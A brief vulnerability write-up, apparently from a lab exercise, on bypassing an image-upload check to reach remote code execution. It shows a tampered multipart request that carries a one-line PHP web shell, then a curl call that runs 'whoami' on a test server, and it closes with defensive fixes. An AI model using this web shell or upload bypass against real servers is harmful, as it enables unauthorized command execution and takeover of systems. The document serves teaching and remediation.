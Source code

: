 # How

Intercept the POST request to upload the image and change the Content-Type
to `image/jpg` and the filename to end with `.php`:

```
Content-Disposition: form-data; name="uploaded"; filename="test.php"
Content-Type: image/jpg

<?php system($_REQUEST["cmd"]); ?>
```

If the uploaded file is stored accessible from the webserver, this could result
in remote code execution. Example assuming the uploaded file is stored in `/uploads`:

```
$ curl 'http://192.168.122.233/uploads/test.php?cmd=whoami'
www-data
```

# Fix

- Implement a whitelist of allowed extensions
- Check Content-Type + file extension + magic bytes
- Use existing libraries to handle file upload safely
